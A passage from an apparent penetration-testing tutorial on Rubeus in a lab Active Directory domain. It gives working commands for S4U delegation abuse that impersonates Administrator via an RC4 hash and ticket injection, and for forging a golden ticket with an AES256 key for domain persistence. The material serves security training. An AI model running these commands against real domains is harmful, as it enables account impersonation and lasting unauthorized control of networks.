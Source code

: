 - /rc4: flag is used to provide user noob’s account.
            
- /impersonateuser: User that will be impersonated by noob.
            
- /msdsspn: A valid msDS-AllowedToActOnBehalfOfAnotherIdentity value for the account. Here, the domain controller
            
- /altservice: can be supplied to substitute one or more service names in the resulting .kirbi file.
            
- /ptt: Injects the resulting ticket in the current terminal session
            
`rubeus.exe s4u /user:noob$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:Administrator /msdsspn:host/dc1.ignite.local /altservice:cifs /domain:ignite.local /ptt`
            
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKaBMUp5U77qh_6bLSEV5bfowSgiBZUnNH2RVGlwxy6mUTG9N64BCvW5gcbsu6DIUNQ2Y3AmFBysTZZBbaXsZSivH7JAfNBMHVF9NjFyNc3_6qdjTyVa2Oh5Y3lkzvTMlMV0NptR-PLeyvgEPczWZdi1gf_AhJm9H_3vq1zXG_68zKek31PTNhtK5QDw/s16000/18.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKaBMUp5U77qh_6bLSEV5bfowSgiBZUnNH2RVGlwxy6mUTG9N64BCvW5gcbsu6DIUNQ2Y3AmFBysTZZBbaXsZSivH7JAfNBMHVF9NjFyNc3_6qdjTyVa2Oh5Y3lkzvTMlMV0NptR-PLeyvgEPczWZdi1gf_AhJm9H_3vq1zXG_68zKek31PTNhtK5QDw/s16000/18.png?w=640&ssl=1)
            
This would generate a ticket for Administrator user over the specified SPN. In short, we can now act as DC.
            
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhUB3Gg2Pl5L3PtqMzd7Q7xa8K50p7yK8r3YqVEj5VgHAcAClYIFIwE4kiN-UcO58nHkB5BjLOOtlEAAIcd86f0oq3_I6K2XCmjkFVZnjDUggjoiycvgi9tOn-iuZ1FeiJY4BoxpP2dfMdC7xFQH7vpG-ahmBvjzVP1_QE6Hlv-LjJqBDnqkIi03zzb6A/s16000/19.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhUB3Gg2Pl5L3PtqMzd7Q7xa8K50p7yK8r3YqVEj5VgHAcAClYIFIwE4kiN-UcO58nHkB5BjLOOtlEAAIcd86f0oq3_I6K2XCmjkFVZnjDUggjoiycvgi9tOn-iuZ1FeiJY4BoxpP2dfMdC7xFQH7vpG-ahmBvjzVP1_QE6Hlv-LjJqBDnqkIi03zzb6A/s16000/19.png?w=640&ssl=1)
            
### Golden Ticket
                
Golden tickets are forged KRBTGTs (Key Distribution Service account) which can be used to forge other TGTs. This provides an attacker persistence over the domain accounts. For a detailed walkthrough on the topic you can visit the article **[here](https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/)**.
                
To forge a golden ticket for user harshitrajpal, we first generate an AES hash (RC4 works too) using the hash command in Rubeus and then using the golden function like so. Here,
                
- /ldap: Retrieves information of user over LDAP protocol
                
- /user: Username whose ticket will be forged
                
- /printcmd: displays a one liner command that can be used to generate the ticket again that just got generated
                
`rubeus.exe hash /user:harshitrajpal /domain:ignite.local /password:Password@1`
                
`rubeus.exe golden /aes256:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /ldap /user:harshitrajpal /printcmd`
                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPW0OyVNb9deU4qubrM9AEjoOx7201V4pamhV-2Mru0bgQtPYpuvLlJkuOKv4V4mm0Oev2mb8XOF3JccaoZz3xtI5l8psPzgyrBbsYNB8lN3BjcNIVbbiit7B6-ly-ba4JeQ_aKuWgmQp_Vlwgiopb3z763jc82mW25GyqIOdhlWEV8YtqKGQsI6GQVA/s16000/20.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPW0OyVNb9deU4qubrM9AEjoOx7201V4pamhV-2Mru0bgQtPYpuvLlJkuOKv4V4mm0Oev2mb8XOF3JccaoZz3xtI5l8psPzgyrBbsYNB8lN3BjcNIVbbiit7B6-ly-ba4JeQ_aKuWgmQp_Vlwgiopb3z763jc82mW25GyqIOdhlWEV8YtqKGQsI6GQVA/s16000/20.png?w=640&ssl=1)
                
As you can see various details like SID, userID, Service Key etc are being fetched over LDAP which are important to generate a ticket. PAC signing is also done and a TGT generated for harshitrajpal
                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjxY76i8rRENeczKVXlyQt-PAGh-qYsRVlpB7wJe-Up8Xnkv6aBrdlB7CQVFsBFznkq015OPZG3Y77ndDEAnQ2UsV4zmdzEONj1lJaf2NcJvg7TaOgE31UHNMER3COPjpOHUuu3XfwgQmdB4WcYn_sXi4bHMITqEbMghPGGrvs4pHHshPb-WnJKFr15VA/s16000/21.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjxY76i8rRENeczKVXlyQt-PAGh-qYsRVlpB7wJe-Up8Xnkv6aBrdlB7CQVFsBFznkq015OPZG3Y77ndDEAnQ2UsV4zmdzEONj1lJaf2NcJvg7TaOgE31UHNMER3COPjpOHUuu3XfwgQmdB4WcYn_sXi4bHMITqEbMghPGGrvs4pHHshPb-WnJKFr15VA/s16000/21.png?w=640&ssl=1)
                
Also, at the end you’ll see a one liner command that can be used to generate this TGT again.
                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhfywgxE1QC5yHtbQrFXEPtYWOTQCW2-OvfyCFEcnV3kZX4O_HwPo1OK0pF-fN_TqCpzYuChAht98oyoZWFgawOvvrN6phmhaqcd_rhEscMJs6x2FLcjdFTwf6i2mUoaVwXwP9z_liDl9Y7O3eB7_YoRVJm5o42LcnjkS5-JFhYoyRv_219ADE8Zd-mnQ/s16000/22.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhfywgxE1QC5yHtbQrFXEPtYWOTQCW2-OvfyCFEcnV3kZX4O_HwPo1OK0pF-fN_TqCpzYuChAht98oyoZWFgawOvvrN6phmhaqcd_rhEscMJs6x2FLcjdFTwf6i2mUoaVwXwP9z_liDl9Y7O3eB7_YoRVJm5o42LcnjkS5-JFhYoyRv_219ADE8Zd-mnQ/s16000/22.png?w=640&ssl=1)
                
Various other options can be used in conjunction with golden to modify the generated TGT like:
                
- /rangeinterval: After every time specified, a new ticket will be generated.
                